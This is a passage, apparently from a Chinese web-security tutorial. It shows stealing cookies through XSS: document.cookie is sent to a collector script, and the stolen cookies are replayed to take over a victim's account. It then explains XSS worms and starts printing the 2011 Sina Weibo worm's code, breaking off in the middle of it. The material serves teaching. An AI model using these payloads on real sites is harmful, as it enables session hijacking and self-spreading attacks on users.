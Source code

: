 这个 cookie.php 通过 GET 参数 cookie 来接收数据，那我们向它传递 document.cookie 的值就可以窃取想要的 cookie 了。基于此，我们重新构造 URL。

**注意要做 URL 编码，否则“+”连接符会被吃掉，导致无法窃取 cookie**。

我们打开 http://localhost/pkxss/pkxss\_login.php 上 XSS 后台（第一次使用时按提示点安装，然后用默认帐密登录：admin/123456），可以看到已经成功窃取到Cookie：

![图片11.png](https://s0.lgstatic.com/i/image/M00/8C/0E/CgqCHl_kTAmAQB_aAAEDK3yLJkY943.png)

图 19：窃取到 Cookie

网上也有很多开源的 XSS 平台用来接收 Cookie，你在GitHub 搜索就可以找到很多，大多数可以直接通过 Docker 快速安装。

![Drawing 19.png](https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOtaASyQeAAHRnEyplEU737.png)

图 20：各种开源的 XSS 利用平台

获取 Cookie 后，我们就可以本地修改 Cookie 来登录受害者的账号（除非刚好窃取的 Cookie 不包含用户登录信息，比如未登录状态下访问的攻击链接），可以使用 Chrome 插件 EditThisCookie 来设置窃取的 Cookie：

![图片13.png](https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7hmATCQBAAHhyKThdOI750.png)

图 21：EditThisCookie

还有另一款早期业界比较常用的工具，叫“桂林老兵 Cookie 欺骗工具”，以及在《01 | 武器库：常用的渗透测试工具》中介绍的 Burp Suite，它们均支持修改 Cookie。

#### 蠕虫攻击

前面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。

Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种**创建交互式网页应用的网页开发技术**。这个概念比较抽象，具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。这也正是 Web2.0 带来的改变。

Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。

下面我以之前影响比较大的新浪微博 XSS 蠕虫攻击事件为例，介绍 Ajax 技术在 XSS 蠕虫中的应用，从攻击代码来详细讲解。

![Drawing 21.png](https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOu-AUgG8AAMoVNqvtj8470.png)

图 22 ：新浪微博上感染 XSS 蠕虫的用户

2011年 6 月 28 日，新浪微博遭受 XSS 蠕虫的攻击，很多受害者被迫发布带有攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此影响。受害者在感染后，都会自动关注一位名为“hellosamy”的微博用户（估计是效仿 Samy 蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信，并发布含攻击链接的微博。得益于这种传播方式，在16 分钟内病毒就感染了33000 个用户。

我们来分析下新浪微博的 XSS 蠕虫代码：

```
function createXHR(){ 
return window.XMLHttpRequest?
new XMLHttpRequest():
new ActiveXObject("Microsoft.XMLHTTP");
}
function getappkey(url){
    xmlHttp = createXHR();
    xmlHttp.open("GET",url,false); 
    xmlHttp.send();
    result = xmlHttp.responseText;
    id_arr = '';
    id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
         https:
for(i=0;i<id.length;i++){
        sum = id[i].toString().split('"')[3];  
        id_arr += sum + '||';
    }
return id_arr;
}
function random_msg(){
    link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;
var msgs = [
```
